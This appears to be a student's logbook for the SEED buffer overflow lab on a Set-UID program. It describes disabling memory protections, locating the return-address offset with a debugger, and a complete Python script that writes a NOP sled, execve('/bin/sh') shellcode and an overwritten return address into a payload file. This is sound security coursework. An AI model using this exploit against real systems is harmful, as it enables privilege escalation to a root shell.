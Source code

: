 **Week #5** 

### **SEEDs Lab**
Buffer Overflow Attack Lab (Set-UID Version)

- First we turned off the linux countermeasures, such as Address Space Randomization using the command shown on the lab guide, and then configured the /bin/sh so that the shell allows for Set-UID program attacks

![Terminal print countermeasures](/images/Logbook5%20images/countermeasures.png)


### **Task 1: Getting Familiar with Shellcode** 

- Compiled and ran the program 
- Both 32-bit and 64-bit versions granted us access to the shell

![Terminal print task1](/images/Logbook5%20images/task1.png)


### **Task 2: Understanding the Vulnerable Program** 

- Compiled the program using **make**, which ran a makefile already configured to compile the program with the correct flags to enable the attack, such as turning off the StackGuard, and running the commands to make the program Set-UID
- Checked the permissions of the resulting programs, confirming the Set-UID bit

![Terminal print task2](/images/Logbook5%20images/task2.png)


### **Task 3: Launching Attack on 32-bit Program (Level 1)** 

- First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution

![Terminal print task3](/images/Logbook5%20images/task31.png)

![Terminal print task3](/images/Logbook5%20images/task32.png)

Then, changed the variables in the python script. This script will output to a file the contents to be written on the buffer to overflow

- Changed the offset to 112, which is the distance between the start of the buffer and the return address that we want to rewrite (ebp - buffer) + 4bits = 108 + 4 = 112 

- Changed the ret value to the address to which we want the program to jump to

- Changed the start value to match the start of the shellcode in the buffer with the position the program is going to jump to

**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517- len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcabc     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

